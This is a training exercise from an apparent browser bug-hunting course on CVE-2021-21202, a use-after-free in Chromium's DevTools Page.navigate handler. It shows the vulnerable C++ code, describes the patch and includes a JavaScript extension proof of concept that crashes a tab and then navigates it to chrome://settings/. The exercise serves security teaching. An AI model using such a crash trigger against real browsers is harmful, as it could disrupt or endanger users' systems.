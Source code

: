 # Exercise 5

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21202
I sugget you don't search any report about it to prevents get too much info like patch. Our goal is to find some bugs, not construct Poc. But in truth, Poc can proof that we are right.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1188889

</details>

--------

### Set environment

after fetch chromium
```sh
git reset --hard b84b5d13d0d013ad4a8c90f1ba4cd8509f9885bf
```



### Related code

content/browser/devtools/protocol/page_handler.cc

<!-- content/browser/devtools/render_frame_devtools_agent_host.cc -->
tips: [`Page.navigate`](https://chromedevtools.github.io/devtools-protocol/tot/Page/#method-navigate)


### Do it
Do this exercise by yourself, when you have some idea, you can compare your answer with me. If you find my answer have something wrong, please tell me.


---------

<details>
  <summary>My answer</summary>

  This vulnerability does not seem to be exploitable, so we briefly end this part.
  >One of the methods available via the Chrome DevTools protocol is Page.navigate. That method allows the caller to navigate the target page to a specified URL.
  >
  >When an extension uses that method to navigate a crashed page to a restricted URL, the debugging session will be detached. However, that occurs in the middle of PageHandler::Navigate, resulting in the PageHandler object being deleted midway through the method.

  >The reason that the session is detached is that the URL being navigated to is restricted (and therefore can't be debugged by an extension).
  >
  >That results in the PageHandler object being deleted (along with the other domain handlers) once LoadURLWithParams has finished executing.
  
  ```c++
void PageHandler::Navigate(const std::string& url,
                           Maybe<std::string> referrer,
                           Maybe<std::string> maybe_transition_type,
                           Maybe<std::string> frame_id,
                           Maybe<std::string> referrer_policy,
                           std::unique_ptr<NavigateCallback> callback) {
  GURL gurl(url);
  if (!gurl.is_valid()) {
    callback->sendFailure(
        Response::ServerError("Cannot navigate to invalid URL"));
    return;
  }

  if (!host_) {
    callback->sendFailure(Response::InternalError());
    return;
  }

  ui::PageTransition type;
  std::string transition_type =
      maybe_transition_type.fromMaybe(Page::TransitionTypeEnum::Typed);
  if (transition_type == Page::TransitionTypeEnum::Link)
    type = ui::PAGE_TRANSITION_LINK;
  else if (transition_type == Page::TransitionTypeEnum::Typed)
    type = ui::PAGE_TRANSITION_TYPED;
  else if (transition_type == Page::TransitionTypeEnum::Address_bar)
    type = ui::PAGE_TRANSITION_FROM_ADDRESS_BAR;
  else if (transition_type == Page::TransitionTypeEnum::Auto_bookmark)
    type = ui::PAGE_TRANSITION_AUTO_BOOKMARK;
  else if (transition_type == Page::TransitionTypeEnum::Auto_subframe)
    type = ui::PAGE_TRANSITION_AUTO_SUBFRAME;
  else if (transition_type == Page::TransitionTypeEnum::Manual_subframe)
    type = ui::PAGE_TRANSITION_MANUAL_SUBFRAME;
  else if (transition_type == Page::TransitionTypeEnum::Generated)
    type = ui::PAGE_TRANSITION_GENERATED;
  else if (transition_type == Page::TransitionTypeEnum::Auto_toplevel)
    type = ui::PAGE_TRANSITION_AUTO_TOPLEVEL;
  else if (transition_type == Page::TransitionTypeEnum::Form_submit)
    type = ui::PAGE_TRANSITION_FORM_SUBMIT;
  else if (transition_type == Page::TransitionTypeEnum::Reload)
    type = ui::PAGE_TRANSITION_RELOAD;
  else if (transition_type == Page::TransitionTypeEnum::Keyword)
    type = ui::PAGE_TRANSITION_KEYWORD;
  else if (transition_type == Page::TransitionTypeEnum::Keyword_generated)
    type = ui::PAGE_TRANSITION_KEYWORD_GENERATED;
  else
    type = ui::PAGE_TRANSITION_TYPED;

  std::string out_frame_id = frame_id.fromMaybe(
      host_->frame_tree_node()->devtools_frame_token().ToString());
  FrameTreeNode* frame_tree_node = FrameTreeNodeFromDevToolsFrameToken(
      host_->frame_tree_node(), out_frame_id);

  if (!frame_tree_node) {
    callback->sendFailure(
        Response::ServerError("No frame with given id found"));
    return;
  }

  NavigationController::LoadURLParams params(gurl);
  network::mojom::ReferrerPolicy policy =
      ParsePolicyFromString(referrer_policy.fromMaybe(""));
  params.referrer = Referrer(GURL(referrer.fromMaybe("")), policy);
  params.transition_type = type;
  params.frame_tree_node_id = frame_tree_node->frame_tree_node_id();
  frame_tree_node->navigator().controller().LoadURLWithParams(params);   [1]

  if (frame_tree_node->navigation_request()) {
    navigate_callbacks_[frame_tree_node->navigation_request()
                            ->devtools_navigation_token()] =
        std::move(callback);
  } else {
    callback->sendSuccess(out_frame_id, Maybe<std::string>(),
                          Maybe<std::string>());
  }
}
  ```
  And patch add check `weak_factory_` after `LoadURLWithParams`

  `base::WeakPtrFactory<PageHandler> weak_factory_{this};`

  **Poc**

  This poc is in the form of a `extensions`, you can get guidence from [here](https://bugs.chromium.org/p/chromium/issues/detail?id=1188889)
  ```js
let tabUpdatedListener = null;

chrome.tabs.onUpdated.addListener(function (tabId, changeInfo, tab) {
    if (tabUpdatedListener) {
        tabUpdatedListener(tabId, changeInfo, tab);
    }
});

let debugEventListener = null;

chrome.debugger.onEvent.addListener(function (source, method, params) {
    if (debugEventListener) {
        debugEventListener(source, method, params);
    }
});

startProcess();

function startProcess() {
    let targetTab = null;

    chrome.tabs.create({url: "https://www.google.com/"}, function (tab) {
        targetTab = tab;
    });

    tabUpdatedListener = function (tabId, changeInfo, updatedTab) {
        if (targetTab
            && tabId === targetTab.id
            && changeInfo.status === "complete") {
            tabUpdatedListener = null;

            onTargetTabLoaded(targetTab);
        }
    };
}

function onTargetTabLoaded(tab) {
    chrome.debugger.attach({tabId: tab.id}, "1.3", function () {
        onDebuggerAttachedToTargetTab(tab);
    });
}

function onDebuggerAttachedToTargetTab(tab) {
    chrome.debugger.sendCommand({tabId: tab.id}, "Page.crash", {});

    debugEventListener = function (source, method, params) {
        if (method === "Inspector.targetCrashed") {
            debugEventListener = null;

            chrome.debugger.sendCommand({tabId: tab.id}, "Page.navigate",
                {url: "chrome://settings/"});
        }
    };
}
  ```
</details>

--------
